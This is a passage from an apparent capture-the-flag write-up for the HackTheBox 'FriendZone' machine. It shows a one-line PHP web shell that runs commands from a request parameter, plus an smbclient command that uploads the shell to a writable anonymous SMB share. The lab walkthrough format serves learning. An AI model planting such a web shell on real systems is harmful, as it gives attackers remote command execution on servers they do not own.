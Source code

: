 
It's just a fake upload site. Another troll. 


We need to find another a way to upload files to the target, the only thing that I can think of is the SMB access we had. 


Here is the smb shares listing for reference:

![list-smb-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/FriendZone/img/list-smb-06.png)


We can see from the comment that the `Files` share is located at `/etc/Files`, so we can probably make a guess that the rest of the shares are also inside the `/etc` directory. 


We know that we had access to the `Development` share though there was nothing there, but can we write into the share?


Let's create a simple web-shell:

```php
<?php system($_REQUEST['cmd']); ?>
```


And try to uplaod this to the share with this a one-liner:

```bash
smbclient -N \\\\friendzone.htb\\Development -c 'put cmd.php test.php'
```

![write-test-37](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/FriendZone/img/write-test-37.png)
